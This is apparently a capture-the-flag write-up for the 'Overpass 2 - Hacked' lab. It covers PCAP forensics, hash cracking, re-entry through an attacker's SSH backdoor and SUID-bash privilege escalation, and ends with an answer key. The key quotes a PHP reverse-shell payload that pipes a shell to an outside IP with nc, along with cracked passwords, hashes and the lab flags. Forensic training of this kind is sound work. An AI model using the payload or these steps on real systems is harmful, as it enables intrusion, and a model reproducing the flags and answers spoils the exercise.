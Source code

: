 ---
- **Title**: Overpass 2 - Hacked
- **Description**: Overpas has been hacked! Analyze PCAP file to investigate attackers' actions. From there try to hack back in the system.
- **Set up:**
```bash
	### Set $IP variable to the assigned IP Address
	export IP=10.10.147.30
```

# Task 1 - Forensic - Analysis the PCAP

- By filtering the packets by ```http```, I can easily see the URL of the page attackers used to upload the reverse shell. The packet I was looking for was the one with POST request.

![POST Request](./Images/POST-Request.png)

- Following HTTP Stream, I can figure all information that tracks down attackers' actions.

![POST HTTP Stream](./Images/POST-HTTP-Stream.png)

- Filtering the PCAP file using ```tcp contains password```, I was able to retrieve 5 users with 5 hashes.

![users-hashes](./Images/users-hashes.png)

Using John with fastttrack.txt, I was able to crack 4 passwords for 4 users: 

![cracked-passwords](./Images/cracked-passwords.png)


# Task 2 - Research & Analyze the code

_ In the HTTP Stream, I found that attackers downloaded code from a github page: https://github.com/NinjaJc01/ssh-backdoor. Analyzing the code on the github page, we'll find all the answers. After analyzing the codes, I was able to retrieve teh default hash for the backdorr, the hardcoded  salt for the backdoor and the has that the attacker used (from the PCAP file). From there, I was able to crack the password using the list rockyou.txt. Combining the found hash and salt, I was able to crack the password for the backdoor (SHA512($p.$s))

# Task 3 - Attack & Get Back in!
- Visiting the website on port 80, we can easily see the message by the attacker.

- Using the credentials found in Task 2, to ssh to the machine through the backdoor. 

```bash
    ssh james@$IP -p 2222
``` 

![ssh-backdoor](./Images/ssh-backdoor.png)

- Running some directory exploration, I found user.txt under james' home folder. I also found .suid_bash file, which has suid bit set. This can be used to escalate privilege to root.

```bash
    ls -la /home/james
```
![james-home.png](./Images/james-home.png)

- Referencing [GTFOBin]("https://gtfobins.github.io/"), I was able to get root by running the following command:

```bash
    ./.suid_bash -p
```

![get-root.png](./Images/get-root.png)

And we're done for the room. With root acces, I could get both user's flag and root flag.
<details>
    <summary> Answer </summary>
	
1. What was the URL of the page they used to upload a reverse shell?  <br>
	-> /development/ <br>
	
2. What payload did the attacker use to gain access? 
	-> <?php exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.170.145 4242 >/tmp/f")?>
	
3. What password did the attacker use to privesc? <br>
	-> whenevernoteartinstant<br>
	
4. How did the attacker establish persistence? <br>
	-> https://github.com/NinjaJc01/ssh-backdoor<br>
	
5. Using the fasttrack wordlist, how many of the system passwords were crackable? <br>
	-> 4<br>
	
6. What's the default hash for the backdoor? <br>
	-> bdd04d9bb7621687f5df9001f5098eb22bf19eac4c2c30b6f23efed4d24807277d0f8bfccb9e77659103d78c56e66d2d7d8391dfc885d0e9b68acd01fc2170e3<br>
	
7. What's the hardcoded salt for the backdoor? <br>
	-> 1c362db832f3f864c8c2fe05f2002a05<br>
	
8. What was the hash that the attacker used? - go back to the PCAP for this! <br>
	-> 6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed<br>
	
9. Crack the hash using rockyou and a cracking tool of your choice. What's the password? <br>
	-> november16<br>
	
10.  The attacker defaced the website. What message did they leave as a heading? <br>
	-> H4ck3d by CooctusClan<br>
	
11. What's the user flag? <br>
	-> thm{d119b4fa8c497ddb0525f7ad200e6567}<br>
	
12. What's the root flag?<br>
	-> thm{d53b2684f169360bb9606c333873144d}<br>

</details>

